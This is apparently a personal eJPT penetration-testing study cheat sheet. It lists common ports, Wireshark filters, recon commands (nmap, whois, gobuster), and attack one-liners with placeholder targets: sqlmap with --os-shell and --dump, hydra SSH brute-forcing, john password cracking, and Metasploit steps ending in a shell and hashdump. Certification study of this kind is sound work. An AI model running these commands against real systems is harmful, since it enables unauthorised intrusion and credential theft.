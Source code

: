 eJPT Notes :

\-->Common ports

\-----------------------------------------

25 - SMTP

22 - SSH

110 - POP3

143 - IMAP

80 - HTTP

443 - HTTPS

137, 138, 139 - NETBIOS

115 - SFTP

23 - Telnet

21 - FTP

3389 - RDP

3306 - MySQL

1433 - MS SQL Server

\--> How to set route

\-----------------------------------------

ip route add <Network To Which We Need Access> via <GATEWAY>

ex,

ip route add 192.168.1.0/24 via 10.10.15.1

\--> Wireshark Filters

\-----------------------------------------

Wireshark Filter by IP --> ip.add == 10.10.10.9

Filter by Destination IP --> ip.dest == 10.10.10.9

Filter by Source IP --> ip.src == 10.10.50.1

Filter by port --> tcp.port == 25

Filter by ip adress and port --> ip.addr == 10.10.50.1 and Tcp.port == 25

Filter SYN flag --> Tcp.flags.syn == 1

Tcp.flags.syn == 1 and tcp.flags.ack ==0

Wireshark broadcast filter --> eth.dst == ff:ff:ff:ff:ff:ff

\-->Whois

\-----------------------------------------

whois <site.com>

\-->Ping Sweep

\-----------------------------------------

nmap -sn <IP>/24

\-->Banner Grabbing

\-----------------------------------------

nc -nv <IP> <port>

\-->Directory and File Scanning

\-----------------------------------------

dirsearch.py -u http://IP -e \*

gobuster dir -u http://IP/folder -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

\-->Nmap

\-----------------------------------------

nmap -p- <IP address>

nmap -sC -sV -p21,22,445 <IP address>

nmap -sC -sV -p- <IP address>

nmap --script vuln <IP address>

All Nmap script on this path : /usr/share/nmap/scripts

\-->Cross Site Scripting (XSS)

\-----------------------------------------

Learn XSS from the lab examples.

\-->SQLMap

\-----------------------------------------

sqlmap -u http://<IP address> -p parameter

sqlmap -u http://<IP address> –os-shell

sqlmap -u http://<IP address> –dump

\-->Cracking Password

\-----------------------------------------

john -wordlist /path/to/wordlist -users=users.txt hashfile

\-->Hydra

\-----------------------------------------

hydra -L users.txt -P pass.txt -t 10 <IP address> ssh -s 22

Replace "ssh" with any service name

\-->Windows Shares Using Null sessions

\-----------------------------------------

enum4linux -a <IP address>

\-->Metasploit

\-----------------------------------------

search x

use x

show options

set LHOST <IP address>

set RHOST <IP address>

set payload <xxxxxx>

exploit

upload x C:\\\\Windows

shell

use post/windows/gather/hashdump